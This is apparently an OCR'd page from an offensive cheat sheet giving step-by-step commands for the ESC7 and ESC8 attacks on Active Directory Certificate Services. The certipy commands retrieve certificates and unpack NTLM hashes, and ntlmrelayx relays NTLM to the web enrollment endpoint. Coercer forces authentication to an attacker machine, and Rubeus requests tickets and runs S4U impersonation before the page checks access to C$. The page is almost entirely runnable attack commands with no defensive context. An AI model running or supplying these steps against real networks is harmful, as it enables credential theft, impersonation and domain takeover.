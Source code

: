 ````
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -retrieve <REQUEST ID> -out 'esc7' -debug
```

#### Append files
```
vim esc7.crt
vim esc7.key
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Unpac the hash
```
certipy auth -pfx 'esc7.pfx'
```

#### Check access
```
cme smb <FQDN> -u <USER> -H <NTLM HASH>
```

### ESC8 NTLM Relay to AD CS HTTP(S) Endpoints
- Web enrollment interface (`http://<CA FQDN>/certsrv/certsnsh.asp`)
- Target Default Machine Template or Domain Controller Authentication

#### Enumerate HTTP Enrollment Endpoints
```
certipy find -u <USER>@<FQDN DOMAIN> -p <PASSWORD> -dc-ip <DC IP> -stdout
```

```
certutil -enrollmentServerURL -config <CA NAME>
```

#### Start NTLMRelay
```
python3 ntlmrelayx.py -t http://<FQDN CA>/certsrv/certfnsh.asp -smb2support --adcs --template <TEMPLATE NAME>
```

#### Force coerce
```
python3 Coercer.py coerce -l <KALI IP> -t <TARGET IP> -u <USER> -p <PASSWORD> -d <DOMAIN> -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

#### Request TGT
```
.\Rubeus.exe asktgt /user:<COMPUTER ACCOUNT>$ /domain:<FQDN DOMAIN> /dc:<FQDN DC> /outfile:esc8.kirbi /certificate:<BASE64 CERT>
```

#### Execute S4USelf
```
.\Rubeus.exe s4u /self /impersonateuser:<USER> /altservice:cifs/<FQDN COMPUTER> /dc:<FQDN DC> /user:<COMPUTER ACCOUNT>$ /ticket:esc8.kirbi /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
````